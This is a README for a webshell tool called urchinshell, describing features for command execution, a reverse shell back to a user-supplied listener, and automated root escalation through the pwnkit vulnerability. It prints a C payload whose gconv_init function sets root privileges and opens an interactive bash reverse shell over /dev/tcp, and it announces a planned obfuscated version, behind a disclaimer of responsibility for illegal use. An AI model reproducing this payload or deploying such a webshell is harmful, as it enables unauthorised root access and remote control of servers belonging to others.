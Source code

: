 # urchinshell V1

This webshell can be used for multi-purposed especially most if you want to manage your web server but you are in an emergency , so why not use a webshell:)

**DISCLAIMER : ILLEGAL USE OF OUR TOOLS INCLUDING THIS WEBSHELL WILL NOT HAVE US BEING HELD RESPONSIBLE AT ALL!**

![Screenshot_20220202_002639](https://user-images.githubusercontent.com/49201347/152054318-8a6bae94-48f2-4e92-a225-926e7e2baa95.png)

## How To Use

Currently has three features which are :
#### Automate-Privesc
this allows you to put in a base64 encoded string which contains the code run in poppy but with an execution of reverse-shell instead , which means when you execute it , it shall directly test and exploit pwnkit vulnerability using poppy, the payload should be something like this:
```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  setuid(0);
  setgid(0);
  seteuid(0);
  setegid(0);  
  system("/usr/bin/sudo -u root /usr/bin/bash -c '/usr/bin/bash -i &>/dev/tcp/127.0.0.1/1337 <&1'");
  exit(0);
}
```
#### Reverse Shell
this is a classic one , you just put in your IP and Port and you shall definitely get shell access back to your listener if you are having trouble using the shell feature and you want to use a shell instead:

![Screenshot_20220202_001555](https://user-images.githubusercontent.com/49201347/152052883-bb57b9ef-61aa-4869-9170-84ea11120548.png)

#### Shell Exec
Allows you to execute shell commands , just by typing your command and clicking execute

![Screenshot_20220202_001938](https://user-images.githubusercontent.com/49201347/152053380-b68558ea-2778-46e9-931d-516234a74940.png)

## V2 UPDATE INFO
Version two will be updated with the following new features:

1. MYSQL Connector
2. Obfuscated Web-Shell
3. Real-Time Shell Spawn

## CONTACT US

If you wish to contribute or give a suggestion or need to contact us :

email : urchinsec@protonmail.com
discord : https://discord.gg/red66VCSEp
